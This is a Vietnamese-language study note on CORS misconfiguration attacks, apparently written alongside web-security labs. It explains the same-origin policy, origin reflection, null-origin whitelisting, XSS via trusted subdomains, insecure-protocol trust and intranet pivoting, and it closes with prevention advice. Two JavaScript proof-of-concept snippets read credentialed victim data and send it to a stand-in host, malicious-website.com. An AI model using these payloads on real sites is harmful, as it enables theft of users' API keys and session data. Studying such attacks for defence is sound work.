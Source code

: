 # Cross-origin resource sharing (CORS)

## What is CORS (cross-origin resource sharing)?

- Cross-origin resource sharing (CORS) , là một cơ chế trình duyệt cho phép truy cập có kiểm soát vào các tài nguyên nằm bên ngoài một miền nhất định.
- Nó mở rộng và thêm tính linh hoạt cho chính sách cùng nguồn gốc ( SOP ). Tuy nhiên, nó cũng tiềm ẩn nguy cơ cross-domain attacks nếu chính sách CORS của trang web được cấu hình và triển khai kém. CORS không phải là biện pháp bảo vệ chống lại cross-origin attacks như CSRF.


## Same-origin policy.

- Same-origin policy (SOP) là một đặc tả nguồn gốc chéo hạn chế giới hạn khả năng trang web tương tác với các tài nguyên bên ngoài miền nguồn.  Nó thường cho phép một miền đưa ra yêu cầu đến các miền khác, nhưng không cho phép truy cập các phản hồi. Là một cơ chế bảo mật của trình duyệt web nhằm mục đích ngăn các trang web tấn công lẫn nhau.

- Khi trình duyệt gửi một yêu cầu HTTP từ web này đến web khác, bất kỳ cookie nào, bao gồm cả cookie phiên xác thực, có liên quan đến miền khác cũng được gửi như một phần của yêu cầu. Điều này có nghĩa là phản hồi sẽ được tạo trong phiên của người dùng và bao gồm mọi dữ liệu liên quan dành riêng cho người dùng.

## Relaxation of the same-origin policy.

- Chính sách cùng nguồn gốc là rất hạn chế và do đó, nhiều cách tiếp cận khác nhau đã được đưa ra để vượt qua các hạn chế. Nhiều trang web tương tác với các tên miền phụ hoặc các trang web của bên thứ ba theo cách yêu cầu toàn quyền truy cập nguồn gốc chéo. Có thể nới lỏng có kiểm soát đối với SOP bằng cách sử dụng chia sẻ tài nguyên có nguồn gốc chéo (CORS).

- [CORS and ACAO.](acao.md)

## Vulnerabilities arising from CORS configuration issues.

- Một số ứng dụng cần cung cấp quyền truy cập vào một số miền khác. Việc duy trì danh sách các miền được phép đòi hỏi nỗ lực liên tục và bất kỳ sai sót nào đều có nguy cơ phá vỡ chức năng. Vì vậy, một số ứng dụng cho phép truy cập hiệu quả từ bất kỳ miền nào khác.

- Bởi vì ứng dụng cho phép nguồn gốc tùy ý trong *Access-Control-Allow-Origin*, điều này có nghĩa là hoàn toàn bất kỳ miền nào cũng có thể truy cập tài nguyên từ miền dễ bị tấn công. Nếu phản hồi chứa bất kỳ thông tin nhạy cảm nào như khóa API hoặc mã thông báo CSRF , bạn có thể truy xuất thông tin này bằng cách đặt tập lệnh sau trên trang web của mình:

```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```
- Lab :
	+ Lab: CORS vulnerability with basic origin reflection.[exploit](exploit/lab1.txt)

### Server-generated ACAO header from client-specified Origin header.

### Errors parsing Origin headers.
	
- Một số ứng dụng hỗ trợ truy cập từ nhiều origin làm như vậy bằng cách sử dụng whitelist . Khi nhận được yêu cầu CORS, origin sẽ được so sánh với whitelist. Nếu origin xuất hiện trên whitelist thì nó sẽ được phản ánh trong *Access-Control-Allow-Origin* để quyền truy cập được cấp.

- Sai lầm thường phát sinh khi triển khai whitelist origin CORS. Một số tổ chức cho phép truy cập từ tất cả các miền phụ của họ, và một số cho phép truy cập từ nhiều miền của các tổ chức khác bao gồm cả miền phụ. Các quy tắc này thường được triển khai bằng cách đối sánh tiền tố hoặc hậu tố URL hoặc sử dụng biểu thức chính quy. Bất kỳ sai lầm nào trong quá trình triển khai đều có thể dẫn đến việc cấp quyền truy cập cho các miền bên ngoài ngoài ý muốn.

### Whitelisted null origin value.

- Origin : null :
	+ Chuyển hướng nhiều nguồn gốc.
	+ Yêu cầu từ dữ liệu tuần tự.
	+ Yêu cầu sử dụng file://.
	+ Yêu cầu cross-origin trong sandbox.

- Trong tình huống này, kẻ tấn công có thể sử dụng nhiều thủ thuật khác nhau để tạo ra một yêu cầu cross-site có *Origin : null*.

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
``` 

-Lab:
	+ Lab: CORS vulnerability with trusted null origin.[exploit](exploit/lab2.txt)

### Exploiting XSS via CORS trust relationships.

- Ngay cả khi CORS được cấu hình đúng cũng dễ bị tấn công , nếu nguồn gốc tin cậy dễ bị tấn công XSS , thì kẻ tấn công có thể khai thác XSS để đưa JavaScript sử dụng CORS để truy xuất thông tin nhạy cảm từ trang web nạn nhân.

Request:
```
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

Response:
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```
Exploit : https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>

### Breaking TLS with poorly configured CORS.

Request:
```
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```

Response:
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```
- Trong tình huống này, kẻ tấn công đang ở vị trí chặn lưu lượng truy cập của người dùng nạn nhân có thể khai thác cấu hình CORS để xâm phạm sự tương tác của nạn nhân với ứng dụng.
	+ Nạn nhân thực hiện yêu cầu HTTP > Kẻ tấn công đưa ra một chuyển hướng đến: http://trusted-subdomain.vulnerable-website.com
	+ Trình duyệt của nạn nhân chuyển hướng > Kẻ tấn công chặn yêu cầu HTTP và trả về phản hồi giả mạo có chứa yêu cầu CORS tới:https://vulnerable-website.com
	+ Trình duyệt của nạn nhân thực hiện yêu cầu CORS có Origin: http://trusted-subdomain.vulnerable-website.com
	+ Ứng dụng cho phép yêu cầu vì đây là origin trong danh sách trắng > Dữ liệu nhạy cảm được trả lại trong phản hồi.
	+ Trang giả mạo của kẻ tấn công có thể đọc dữ liệu nhạy cảm và truyền nó đến bất kỳ miền nào dưới sự kiểm soát của kẻ tấn công.

- Lab:
	+ Lab: CORS vulnerability with trusted insecure protocols.[exploit](exploit/lab3.txt)

### Intranets and CORS without credentials.

- Nếu không có header *Access-Control-Allow-Credentials: true* , trình duyệt của người dùng nạn nhân sẽ từ chối gửi cookie của họ, có nghĩa là kẻ tấn công sẽ chỉ có quyền truy cập vào nội dung chưa được xác thực.

- Tuy nhiên, có một tình huống mà kẻ tấn công không thể truy cập trực tiếp vào trang web: khi nó là một phần của mạng nội bộ của tổ chức và nằm trong không gian địa chỉ IP riêng. Các trang web nội bộ thường có tiêu chuẩn bảo mật thấp hơn các trang web bên ngoài, cho phép những kẻ tấn công tìm thấy lỗ hổng và truy cập sâu hơn. 

Request:
```
GET /reader?url=doc1.pdf
Host: intranet.normal-website.com
Origin: https://normal-website.com
```
Response:
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
```

- Máy chủ ứng dụng đang tin cậy các yêu cầu tài nguyên từ bất kỳ nguồn gốc nào mà không có thông tin xác thực. Nếu người dùng trong không gian địa chỉ IP riêng truy cập internet công cộng thì một cuộc tấn công dựa trên CORS có thể được thực hiện từ trang web bên ngoài sử dụng trình duyệt của nạn nhân làm proxy để truy cập tài nguyên mạng nội bộ.

-Lab:
	+ Lab: CORS vulnerability with internal network pivot attack.[exploit](exploit/lab4.txt)

## How to prevent CORS-based attacks.

- Proper configuration of cross-origin requests.
- Only allow trusted sites.
- Avoid whitelisting null.
- Avoid wildcards in internal networks.
- CORS is not a substitute for server-side security policies.
